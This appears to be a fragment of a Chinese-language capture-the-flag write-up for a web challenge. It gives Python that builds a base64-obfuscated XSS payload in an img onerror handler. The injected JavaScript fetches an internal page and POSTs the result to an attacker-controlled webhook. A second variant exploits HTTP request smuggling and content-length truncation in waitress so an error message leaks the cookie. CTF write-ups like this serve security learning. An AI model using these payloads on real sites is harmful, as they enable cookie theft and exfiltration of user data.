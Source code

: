 ```python
fetch = '''
fetch("http://nginx:3000/%s", {
    headers: {
        'zzz': 'yyy;expr=hello',
        'Accept-Language': '*',
    }
})
.then(res => res.text())
.then(res => {fetch('%s', { method:'POST', body:res })})
''' % (quote(path), webhook)

img = f'<img src=1 onerror=eval(atob("{b64encode(fetch.encode()).decode()}"))>'

print(img)
```



#### 补充

其实还有另一种做法。

在content length符合某种条件的时候，有时候会看到类似这种报错

```
42HTTP/1.1 200 OK
Content-Length: 2
Content-Type: text/html;charset=utf-8
Date: Thu, 17 Nov 2022 12:16:14 GMT
Server: CherryPy/18.8.0
Via: waitress

42HTTP/1.0 400 Bad Request
Connection: close
Content-Length: 68
Content-Type: text/plain; charset=utf-8
Date: Thu, 17 Nov 2022 12:16:14 GMT
Server: waitress

Bad Request

Malformed HTTP method "t:"

(generated by waitress)
```

这是因为post请求根据content length截断数据后，后面剩下的数据会被当作下一个请求，而从请求开始到第一个空格的部分会被当作请求的method，当method不合法的时候就会报错。

所以可以调整content length让cookie被当作method被报错带出来。

但是要注意到cookie后面是没有空格的，所以需要再加一个cookie，让flag后面有空格。

只要在fetch前设置document.cookie就可以了

```python
fetch = '''
document.cookie = "foo=bar"
fetch("http://nginx:3000/%s")
.then(res => res.text())
.then(res => {fetch('%s', { method:'POST', body:res })})
''' % (quote(path), webhook)
```
